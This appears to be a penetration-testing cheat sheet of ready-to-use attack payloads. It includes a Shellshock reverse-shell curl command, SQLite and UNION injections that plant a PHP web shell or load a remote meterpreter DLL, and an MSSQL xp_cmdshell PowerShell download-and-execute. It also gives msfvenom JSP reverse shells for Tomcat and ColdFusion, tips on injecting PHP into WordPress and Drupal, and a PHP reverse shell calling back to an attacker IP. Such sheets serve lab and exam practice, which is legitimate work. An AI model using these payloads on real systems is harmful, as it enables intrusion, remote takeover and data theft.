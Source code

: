 ### Shellshock
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.119.199/443 0>&1' http://10.11.1.71/cgi-bin/admin.cgi
```

## Database
### Sqlite
```
ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘<? system($_GET[‘cmd’]); ?>’;--
```
or
```
?name=123 UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
### MsSQL
```
mssqlclient.py -p 1433 EXAMPLE\Administrator@DC01 -windows-auth
enable_xp_cmdshell
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://192.168.119.199/rev.ps1\")
```

## Common framework
### Tomcat
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f war > shell.war
```
Deploy .war through /manager/html
https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
### Coldfusion
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f raw > shell.jsp
```
Upload through schedule task
### Wordpress
Edit 404.php in `Appearance`
### Drupal
Enable php in options
New post with php code

## Reverse shell
php
```
<?php
print shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.199/443 0>&1'");
?>
```
